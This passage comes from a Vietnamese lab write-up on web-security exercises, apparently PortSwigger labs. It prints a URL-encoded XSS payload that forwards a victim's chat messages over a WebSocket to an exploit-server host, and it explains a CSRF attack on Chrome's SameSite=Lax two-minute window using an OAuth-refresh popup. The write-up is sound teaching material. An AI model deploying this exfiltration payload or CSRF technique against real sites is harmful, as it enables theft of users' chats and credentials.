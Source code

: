 Cuối cùng, mình tạo ra 1 HTML payload dựa trên cái payload XSS ở trên: 

```javascript
<script>
    document.locaton = 'http://cms-0aa1000c03396524806d1c66009b000e.web-security-academy.net/login?username=3Cscript%3E%0A%20%20%20%20var%20webSocket%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0aa1000c03396524806d1c66009b000e.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20webSocket.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20webSocket.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20webSocket.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2Fexploit-0aa20059034a04d8c0be9f8801ea0097.exploit-server.net%2Flog%3F%27%2Bevent.data%2C%20%7Bmethod%3A%20%27GET%27%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=123)';
</script>
```

![image](https://hackmd.io/_uploads/H1lIjUJdgl.png)

Sau đó nó trả về nội dung chat mà chẳng may trong đó có tài khoản. 

![image](https://hackmd.io/_uploads/r18dsLkOgl.png)

## Bypass SameSite Lax bằng cách sử dụng cookie vừa được tạo ra

Cookie `SameSite=Lax` thường ko được gửi trong POST từ trang khác (cross-site POST). 
Nhưng **Chrome có ngoại lệ**: Nếu cookie mới được tạo (vừa set) và ko có thuộc tính SameSite rõ ràng, thì: 
- Chrome tự set `SameSite=Lax` mặc định
- Nhưng ko áp dụng hạn chế ngay lập tức 

➡️ Trong 2 phút đầu sau khi cookie được set, nó vẫn được gửi trong các POST cross-site. 
👉 Kẻ tấn công lợi dụng trong 2 phút đầu để thực hiện CSRF. 

Việc mà khai thác trong 2 phút đầu này lại ko thực tế lắm. Nhưng mà nếu tìm được 1 gadget trên web cho phép buộc trình duyệt của nạn nhân nhận cookie phiên mới, từ đây mình chủ động làm mới cookie để tấn công CSRF ➡️ ví dụ là sau khi login lại bằng OAuth, thì:
- ✨ Cookie mới nằm trong 2 khoảng 2 phút => tấn công CSRF thành công. 

Để thực hiện điều này: 
- Redirect người dùng tới trang login OAuth (ở top-level ➡️ trình duyệt gửi cookie OAuth)
- OAuth xử lý xong ➡️ cấp session mới 
- Chuyển hướng người dùng lại site của attacker
- Attacker thực hiện CSRF trong thời gian đ 

Có thể mở tab mới để làm mới cookie mà không rời khỏi trang tấn công, nhưng trình duyệt sẽ chặn popup nếu không có thao tác thủ công từ người dùng. Ví dụ, đoạn code mở popup sau đây sẽ bị trình duyệt chặn theo mặc định: 

```javascript
window.open('https://vulnerable-website.com/login/sso');
```

Từ đây mình có thể wrap nó trong sự kiện `onclick`

```javascript
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```
Bằng cách này, phương thức `window.open()` chỉ được gọi khi người dùng nhấp chuột vào một vị trí nào đó trên trang.
